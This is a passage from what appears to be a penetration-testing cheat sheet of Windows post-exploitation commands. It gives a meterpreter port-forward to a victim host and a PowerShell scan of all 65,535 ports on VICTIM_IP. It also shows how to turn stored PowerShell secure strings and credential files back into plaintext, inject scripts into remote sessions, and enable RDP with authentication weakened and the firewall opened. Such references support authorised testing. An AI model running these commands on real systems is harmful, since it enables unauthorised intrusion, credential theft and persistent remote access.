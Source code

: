 # Port forward using meterpreter
portfwd add -l attacker-port -p victim-port -r victim-ip
portfwd add -l 3306 -p 3306 -r 192.168.1.56
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Powershell Portscan
<pre class="prettyprint linenums:"><code class="language-powershell">0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(VICTIM_IP,$_)) "Port $_ is open!"} 2>$null
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Recovering Powershell Secure String
<pre class="prettyprint linenums:"><code class="language-powershell">######
$user = "morph3"
$file = "morph3-pass.xml"
$cred= New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user, (Get-Content $file | ConvertTo-SecureString)
Invoke-Command -ComputerName ECORP -Credential $cred -Authentication credssp -ScriptBlock { whoami }

######
[System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR("string"))

######
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($password)
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
$result 
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Injecting PowerShell scripts Into sessions
<pre class="prettyprint linenums:"><code class="language-powershell">Invoke-Command -FilePath scriptname -Sessions $sessions
Enter-PSSession -Session $sess
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Enable RDP

<pre class="prettyprint linenums:"><code class="language-py"># CMD 
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
